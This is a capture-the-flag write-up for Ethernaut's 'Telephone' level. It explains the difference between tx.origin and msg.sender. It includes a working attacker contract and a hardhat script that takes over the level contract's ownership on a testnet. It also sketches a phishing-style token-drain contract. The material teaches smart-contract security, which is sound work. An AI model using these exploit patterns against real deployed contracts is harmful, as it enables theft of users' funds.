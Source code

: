 ```yaml
---
title: Ethernaut \#04 Telephone
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Telephone challenge writeup
---
```


## Telephone

### Challenge

Claim ownership of the contract below to complete this level.

  Things that might help

* See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

### Background

This challenge only requires differenciating between `tx.origin` and `msg.sender`. The difference between the two is that the one (`tx.origin`) is who initiated the transaction while the other (`msg.sender`) is who triggered the call. In a simple transaction where all interactions are within the same contract, both `tx.origin` and `msg.sender` are the same address, that of the `EOA` that triggered the transaction. When a contract is interacting with another contract, then for the caller contract, both `tx.origin` and `msg.sender` are the same, while for the callee contract, the `tx.origin` is the `EOA` that initiated the transaction while the `msg.sender` is the caller contract.

### Attack

The attack is very simple, in order change owner we need to trigger the contract with different `msg.sender` and `tx.origin` values.

* Deploy an attacker controlled contract that can call `changeOwner`.
* Trigger the attacker controlled contract to call `changeOwner`

#### TelephoneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '../challenges/Telephone.sol';

contract TelephoneSolve {

  constructor() public {}

  function changeOwner(address _telephoneAddress, address _newOwner) public returns (bool) {
    Telephone telephoneContract = Telephone(_telephoneAddress);
    telephoneContract.changeOwner(_newOwner);
  }
}
```

#### telephone-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    telephoneAddress = "0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c";
    contract = await ethers.getContractAt("Telephone", telephoneAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    TelephoneSolve = await ethers.getContractFactory("TelephoneSolve");
    telephoneSolve = await TelephoneSolve.deploy();
    await telephoneSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // trigger change owner
    tx = await telephoneSolve.connect(account).changeOwner(
        contract.address, 
        account.address, 
    )
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/telephone-solve.js --network rinkeby
Level address   : 0xd7169D9972e3a4083a2d716f3E4a26F2D9A5605c
Contract Owner  : 0x0b6F6CE4BCfB70525A31454292017F640C10c768
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.
```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
2. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
3. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.

